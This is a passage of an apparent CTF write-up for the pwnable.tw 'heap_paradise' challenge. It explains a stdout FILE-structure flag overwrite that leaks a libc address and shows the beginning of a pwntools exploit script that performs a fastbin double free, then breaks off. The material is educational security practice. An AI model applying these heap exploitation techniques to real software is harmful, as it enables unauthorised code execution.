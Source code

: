 ```c
    _flags2 = 0,
    _old_offset = -1,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "\n",
    _lock = 0x7ffff7bc5780 <_IO_stdfile_1_lock>,
    _offset = -1,
    _codecvt = 0x0,
    _wide_data = 0x7ffff7bc37a0 <_IO_wide_data_1>,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = -1,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x7ffff7bc26e0 <__GI__IO_file_jumps>
}
```

Set the flags to ```(_IO_MAGIC | _IO_IS_APPENDING | _IO_CURRENTLY_PUTTING)```, they will print everything in the address stored in ```_IO_write_base```, when ```puts()``` or ```printf()``` are called, you will get the libc address. Then, just do as usual to get the shell. All of this cost me 16 chunks :DD.


### Exploit

```py
from pwn import *

exe = ELF("./heap_paradise_patched")
libc = ELF("./libc_64.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe
context.log_level = "debug"

def conn():
    if args.LOCAL:
        r = process([exe.path])
        # r = gdb.debug ([exe.path], "b *__libc_start_main+214")
    else:
        r = remote("chall.pwnable.tw", 10308)

    return r

def allocate (p, size, content):
    p.sendafter (b'You Choice:', b'1')
    p.sendafter (b'Size :', size)
    p.sendafter (b'Data :', content)

def free (p, id):
    p.sendafter (b'You Choice:', b'2')
    p.sendafter (b'Index :', id)


def main():
    p = conn()
    allocate (p, b'104', p64 (0) * 3 + p64 (0x71)) # 0 
    allocate (p, b'104', p64 (0) * 3 + p64 (0x31) + b'\x00' * 16 * 2 + p64 (0) + p64 (0x21)) # 1
    free (p, b'0')
    free (p, b'1')
    free (p, b'0')
    allocate (p, b'104', b'\x20') # 2
```